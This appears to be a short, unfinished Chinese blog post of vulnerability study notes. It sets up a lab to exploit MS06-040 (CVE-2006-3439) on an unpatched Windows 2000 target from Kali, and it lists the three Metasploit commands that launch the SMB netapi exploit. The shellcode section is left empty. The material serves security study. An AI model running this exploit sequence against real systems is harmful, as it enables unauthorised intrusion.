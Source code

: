 ```yaml
---
title: 漏洞学习笔记-005-Metasploit制作ShellCode
description: Metasploit制作ShellCode
date: 2020-10-20 22:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-005-metasploit制作shellcode/)

...未完待续(Metasploit旧版本真难找)...

## 入侵Windows实验

### 实验介绍

> MS06-040，CVE-2006-3439

|  | 推荐的环境 | 备注 |
|-|-|-|
| 攻击机系统 | Kali Linux 2021.1 | |
| 目标主机系统 | Windows 2000 SP4 | |
| 补丁版本 | KB921883 | 确保目标主机未安装补丁 |
| 网络环境 | 可互相ping通 | 确保无防火墙干扰 |

### 命令行界面漏洞测试

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## 使用MetaSploit制作ShellCode

...未完待续...
